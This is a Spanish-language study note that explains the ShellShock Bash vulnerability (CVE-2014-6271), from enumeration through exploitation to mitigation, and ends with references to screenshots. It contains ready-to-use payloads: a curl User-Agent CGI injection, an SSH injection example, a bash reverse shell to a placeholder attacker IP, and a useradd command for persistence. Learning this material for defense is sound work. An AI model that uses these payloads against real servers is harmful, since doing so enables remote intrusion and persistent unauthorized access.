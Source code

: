 
-------
### Guía de Ataque **ShellShock** (CVE-2014-6271)

#### 1. **¿Qué es ShellShock?**

**ShellShock**, también conocido como la vulnerabilidad Bash (CVE-2014-6271), es una vulnerabilidad crítica descubierta en el shell Bash, uno de los intérpretes de comandos más utilizados en sistemas Unix y Linux. La falla permite a un atacante ejecutar comandos arbitrarios en el sistema afectado si Bash procesa variables de entorno maliciosas, lo que puede llevar a la toma de control total del sistema.

#### 2. **¿Por qué es relevante en ciberseguridad?**

ShellShock es una vulnerabilidad de ejecución remota de código (RCE) que afecta a versiones antiguas de Bash. Cualquier sistema que use Bash para procesar variables de entorno en scripts CGI, servidores SSH, o cualquier servicio que pase variables de entorno a Bash, es susceptible de ser explotado. Esto significa que un atacante puede ejecutar comandos arbitrarios en servidores vulnerables sin autenticación.

### 3. **Fases del ataque ShellShock**

#### a) **Enumeración**

El objetivo de la enumeración es determinar si el sistema está utilizando una versión vulnerable de Bash y si es accesible mediante servicios que pasan variables de entorno (como scripts CGI).

##### 1. **Verificar la versión de Bash**

Para verificar si un sistema es vulnerable a ShellShock, se puede revisar la versión de Bash:

bash

Copy code

`bash --version`

Las versiones de Bash anteriores a **4.3** son vulnerables a ShellShock.

##### 2. **Comprobar vulnerabilidad con un simple test**

Puedes comprobar manualmente si el sistema es vulnerable a ShellShock ejecutando el siguiente comando desde Bash:

bash

Copy code

`env x='() { :;}; echo VULNERABLE' bash -c "echo Esto es una prueba"`

Si ves la palabra "VULNERABLE" en la salida, significa que el sistema es vulnerable a ShellShock. Si solo ves "Esto es una prueba", el sistema está parcheado.

#### b) **Explotación**

La explotación de ShellShock se basa en la capacidad de inyectar comandos arbitrarios dentro de las variables de entorno, que luego serán procesadas por Bash.

##### **Metodología de explotación**:

1. **Explotación de CGI (Common Gateway Interface)** Los servidores web que utilizan scripts CGI para ejecutar Bash son particularmente vulnerables a ShellShock. Un atacante puede enviar solicitudes HTTP maliciosas al servidor para inyectar comandos en variables de entorno que luego serán procesadas por Bash.

- **Ejemplo de un ataque HTTP usando ShellShock**:
    
    Aquí se inyecta un comando malicioso dentro del encabezado HTTP `User-Agent`:
    
    bash
    
    Copy code
    
    `curl -H 'User-Agent: () { :;}; /bin/bash -c "echo VULNERABLE"' http://<objetivo>/cgi-bin/vulnerable_script.cgi`
    
    Si el servidor es vulnerable, el comando `echo VULNERABLE` será ejecutado por el sistema y la respuesta del servidor mostrará la palabra "VULNERABLE".
    

2. **Explotación en SSH** Si un servidor utiliza Bash como el shell predeterminado para los usuarios que inician sesión por SSH, es posible que sea vulnerable si se permite el acceso remoto no restringido.

Un atacante podría inyectar comandos maliciosos a través de variables de entorno SSH:

- **Ejemplo de ataque a través de SSH**:
    
    Si se tiene acceso a una cuenta SSH con credenciales débiles o comprometidas, el atacante podría ejecutar el siguiente comando:
    
    bash
    
    Copy code
    
    `ssh usuario@servidor.com '() { :;}; /bin/bash -c "comando_malicioso"'`
    

3. **Comandos comunes durante la explotación**:
    
    Una vez que se ha explotado la vulnerabilidad ShellShock, un atacante podría ejecutar una variedad de comandos maliciosos, como:
    
    - **Instalar una web shell** para obtener acceso persistente al sistema:
        
        bash
        
        Copy code
        
        `/bin/bash -i >& /dev/tcp/<IP-atacante>/4444 0>&1`
        
        Esto crea una shell reversa que conecta al atacante.
        
    - **Crear o modificar usuarios**:
        
        bash
        
        Copy code
        
        `/usr/sbin/useradd -m nuevo_usuario`
        
    - **Escalar privilegios** si el usuario comprometido tiene privilegios elevados.
        

#### c) **Post-explotación**

Una vez que se ha explotado ShellShock, las siguientes acciones son posibles:

1. **Obtención de acceso persistente**: Después de ejecutar comandos iniciales, un atacante puede intentar obtener acceso persistente al sistema comprometiendo servicios adicionales, como instalar backdoors o agregar usuarios maliciosos.
    
2. **Escalamiento de privilegios**: El atacante puede intentar escalar privilegios para obtener el control total del sistema, aprovechando vulnerabilidades adicionales o configuraciones incorrectas.
    
3. **Exfiltración de datos**: Tras obtener acceso, el atacante puede buscar información sensible en el sistema, como credenciales, archivos de configuración importantes, etc.
    

#### 4. **Mitigación y protección contra ShellShock**

1. **Actualizar Bash**: La solución más eficaz para prevenir el ataque ShellShock es actualizar Bash a la versión más reciente. Las versiones parchadas están disponibles desde 2014.
    
    bash
    
    Copy code
    
    `sudo apt-get update && sudo apt-get install --only-upgrade bash`
    
    O bien:
    
    bash
    
    Copy code
    
    `sudo yum update bash`
    
2. **Reforzar la seguridad de CGI**:
    
    - Evitar el uso de Bash en scripts CGI.
    - Utilizar shells alternativos o escribir scripts CGI en lenguajes más seguros, como Python o Perl.
3. **Configurar las variables de entorno adecuadamente**: Limitar el uso de variables de entorno que se pasan a los subsistemas de Bash y que no deberían aceptar entrada externa.
    
4. **Desactivar funciones innecesarias en servidores**: Si no se necesita el uso de Bash como intérprete predeterminado, es recomendable usar shells alternativos o configurar el servidor para no ejecutar scripts CGI que dependen de Bash.
    
5. **Monitoreo de Logs**: Mantener una vigilancia activa sobre los registros del sistema para detectar intentos de explotación, especialmente en los servidores que ejecutan scripts CGI.
    

#### 5. **Conclusión**

ShellShock es una vulnerabilidad grave que puede permitir la ejecución remota de código en sistemas vulnerables que utilizan Bash. Aunque el problema fue solucionado con parches, muchos sistemas aún pueden estar en riesgo si no han sido actualizados. La enumeración cuidadosa y la explotación de servicios que utilizan Bash, como scripts CGI o SSH, son las principales formas de ataque. Mantener actualizado Bash y evitar el uso de scripts CGI inseguros son las mejores defensas contra esta vulnerabilidad.

------

La guia para la enumeracion de directorios sigue el siguiente parametro

![[Pasted image 20241017163327.png]]

![[Pasted image 20241017163336.png]]

Buscamos diferentes tipos de archivos en el directorio encontrado:

![[Pasted image 20241017163446.png]]

Y de la siguiente manera podrias realizar una inyeccion de comandos:

![[Pasted image 20241017163914.png]]

Comando para ganar acceso a la maquina:

![[Pasted image 20241017164044.png]]

El siguiente script tiene automatizado este proceso:

![[Pasted image 20241017164458.png]]

